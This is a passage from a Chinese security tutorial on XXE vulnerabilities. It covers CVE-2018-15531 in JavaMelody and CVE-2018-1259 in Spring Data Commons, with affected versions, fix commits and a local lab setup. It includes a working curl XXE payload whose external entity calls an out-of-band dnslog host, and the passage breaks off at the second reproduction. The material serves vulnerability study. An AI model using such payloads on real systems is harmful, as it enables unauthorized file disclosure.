





## 14.3 XXE漏洞举例

### 14.3.1 CVE-2018-15531

+ 漏洞简介

JavaMelody是一款在生产和QA环境中对JAVA应用以及应用服务器(Tomcat、Jboss、Weblogic)进行监控的工具，可以通过图表给出监控数据，方便研发运维等找出响应瓶颈、优化响应等。 在 1.74.0版本，修复了一个XXE漏洞，漏洞编号CVE-2018-15531。攻击者利用漏洞，可以读取JavaMelody服务器上的敏感信息。

+ 影响版本

版本 < 1.74.0

+ 修复代码



链接地址：https://github.com/javamelody/javamelody/commit/ef111822562d0b9365bd3e671a75b65bd0613353

+ 环境准备

在springboot工程的pom.xml中在家javamelody依赖
```java
<dependency>
    <groupId>net.bull.javamelody</groupId>
    <artifactId>javamelody-spring-boot-starter</artifactId>
    <version>1.73.1</version>
</dependency>           
```
启动应用后访问 http://localhost:8080/monitoring



+ dnslog
申请一个dns域名`x9m8kb.dnslog.cn`，发送请求
```java
curl --location --request POST 'http://localhost:8080' \
--header 'Content-type: text/xml' \
--header 'SOAPAction: aaaaa' \
--data-raw '<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://www.x9m8kb.dnslog.cn">
%remote;
]>
</root>'
```
也可以用postman发送请求：


+ 观察结果




### 14.3.2 CVE-2018-1259

+ 漏洞简介

XMLBeans 提供了底层XML数据的对象视图，同时还能访问原始的XML信息集合。Spring Data Commons 1.13至1.13.11以及2.0至2.0.6的版本在与XMLBeam1.4.14或更早的版本进行结合使用时，XMLBeam不会限制XML外部实体应用，导致未经身份验证的远程恶意用户可以针对Spring Data的请求绑定特定的参数，访问系统上的任意文件.

+ 影响版本

Spring Data Commons 1.13 to 1.13.11

Spring Data REST 2.6 to 2.6.11

Spring Data Commons 2.0 to 2.0.6

Spring Data REST 3.0 to 3.0.6

+ 漏洞分析

通过 漏洞修复commit (opens new window)发现，对DefaultXMLFactoriesConfig.java进行了修改，如下：


配置了默认的feature; 禁止实体引用、禁止合并多个XML文档;

+ 复现

代码来源于 spring-data-examples 官方demo spring-data-xml-xxe